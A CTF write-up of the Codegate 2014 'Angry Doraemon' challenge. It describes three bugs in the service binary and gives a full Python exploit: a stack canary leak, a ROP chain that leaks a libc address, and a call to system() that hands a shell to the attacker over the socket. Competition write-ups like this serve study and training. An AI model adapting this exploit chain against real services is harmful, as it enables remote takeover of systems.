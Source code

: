 ```yaml
---
title: Codegate CTF Quals 2014 Angry Doraemon writeup
author: kelwin
layout: post
permalink: /2014-02-25-codegate-ctf-quals-2014-angry_doraemon-writeup/
comments: true
categories:
  - CTF
  - writeup
---
```


## Vulnerabilities
After reversing the binary, we found several vulnerabilities as below:

1. There is a suspected backdoor `execl('/bin/sh')` in the option `1.Sword`, but as a remote service, the local shell cannot interact with the client side;
2. There is an arbitrary address jump in the option `5.Fist attack`, but the addresses that start with "0x08" is not allowed;
3. There is a buffer overflow bug in the option `4.Throw mouse `. Although the related function is protected by stack canary, we can leak the whole canary by overwriting the  first byte 0x00 in the canary. 

The 3rd vulnerability is easier to exploit. We choose it to do exploitation.

## Exploitation

Exploitation steps are as below:

1. Leak the stack canary and stack address in the option `5.Fist attack` handler;
2. Launch ROP attack to call write() in the PLT to leak libc address(e.g. write() in GOT), and then we can calculate the address of system()
3. Launch ROP attack to call system(), and the shell command can be put in the stack since we already know the stack address in step 1

## Code

```python
from zio import *
import sys

host = "58.229.183.18"
port = 8888

# STEP1: leak stack canary and stack address
io = zio((host, port), print_read=False, print_write=False)
payload = "y" + "A" * 10
io.write("4444" + payload)
io.read_until("You choose '")
io.read_until("'!\n")
leak = io.before[len(payload):]
canary = "\x00" + leak[:3]
stack_ref = l32(leak[3:7])
print "[+] canary: %s" % canary.encode('hex')
print "[+] stack addr ref: %s" % hex(stack_ref)

# STEP2: leak libc address
io = zio((host, port), print_read=False, print_write=False)
write_plt = 0x80486e0
write_got = 0x804b040
fd = 4
junk = "JJJJ"
payload = "y" + "A" * 9 + canary + junk * 3 + l32(write_plt) + junk + l32(fd) + l32(write_got) + l32(4)
io.write("4444" + payload)
io.read_until("Are you sure? (y/n) ")
write = l32(io.read(4))
system = write - 0xe0910 + 0x41260
print "[+] write: %s" % hex(write)
print "[+] system: %s" % hex(system)

# STEP3: pwn
io = zio((host, port), print_read=False, print_write=False)
cmd = "sh 0<&4 1>&4\x00"
cmd_addr = 0xbfc56788 - 0xbfc56798 + stack_ref
print "[+] cmd address: %s" % hex(cmd_addr)
payload = "y" + "A" * 9 + canary + junk * 3 + l32(system) + junk + l32(cmd_addr) + cmd
io.write("4444" + payload)
io.read_until("Are you sure? (y/n) ")
print "[+] We've got a shell;-)"
io.interact()
```
